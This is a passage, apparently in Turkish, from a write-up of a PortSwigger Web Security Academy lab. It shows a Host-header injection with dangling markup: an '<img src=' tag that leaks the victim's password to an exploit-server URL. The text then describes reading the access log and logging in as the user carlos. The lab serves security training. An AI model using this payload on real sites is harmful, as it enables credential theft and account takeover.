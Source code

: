 ```html
Host: 0a080033034fe334815adf1400b6007d.web-security-academy.net:80'></a> <img src="https://exploit-0a9c002d03d5e3dd818ade8101a40022.exploit-server.net/exploit/?a=
```

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2023.png)

Bu request’i gönderdikten sonra `exploit server` üzerinden `access log`’ları inceliyoruz. Yaptığımız incelemeler neticesinde ise `carlos` kullanıcısı için şifrenin geldiğini görmekteyiz;

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2024.png)

Ve artık bu şifre ile Carlos kullanıcısının hesabına giriş yapabiliriz. Lab ortamını da bu şekilde çözmüş olduk…

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2025.png)

# Kaynaklar:

1. [https://www.youtube.com/watch?v=I6LZ6e5O-Ao](https://www.youtube.com/watch?v=I6LZ6e5O-Ao)
